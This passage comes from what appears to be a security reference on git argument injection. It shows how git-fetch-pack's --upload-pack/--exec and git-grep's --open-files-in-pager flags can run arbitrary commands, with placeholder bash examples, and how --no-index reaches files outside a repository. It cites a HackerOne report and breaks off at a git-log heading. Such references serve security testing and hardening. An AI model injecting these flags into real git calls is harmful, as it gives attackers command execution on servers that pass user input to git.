 {% embed url="https://git-scm.com/docs/git-fetch-pack" %}

### --exec

Same as `--upload-pack`. Check out the section below.

### --upload-pack

The [--upload-pack](https://git-scm.com/docs/git-fetch-pack#Documentation/git-fetch-pack.txt---upload-packltgit-upload-packgt) flag can be used to execute arbitrary commands. The output is not shown, but it is possible to route the output to stderr using `>&2`.

```bash
$ mkdir repo
$ cd repo
$ git init
$ git fetch-pack --upload-pack='cmdname arg1 arg2 >&2 #' .
```

## git-grep

{% embed url="https://git-scm.com/docs/git-grep" %}

### --no-index

`no-index` tells the git-grep to search files in the current directory that is not managed by Git. In other words, if a working directory is different from a repository one `no-index` allows you to get access to files in the working directory.

References:
- [Report: Git flag injection - Search API with scope 'blobs'](https://hackerone.com/reports/682442)

### -O/--open-files-in-pager

[-O/--open-files-in-pager](https://git-scm.com/docs/git-grep#Documentation/git-grep.txt--Oltpagergt) opens the matching files in the `pager`. It can be used to run arbitrary commands:

```bash
$ mkdir repo
$ cd repo
$ git init
$ echo "random" > hop
$ git add .
$ git grep --open-files-in-pager='cmdname arg1 arg2 #' .
```

References:
- [GTFOArgs: git](https://gtfoargs.github.io/gtfoargs/git/)

## git-log

{% embed url="https://git-scm.com/docs/git-log" %}

### --output
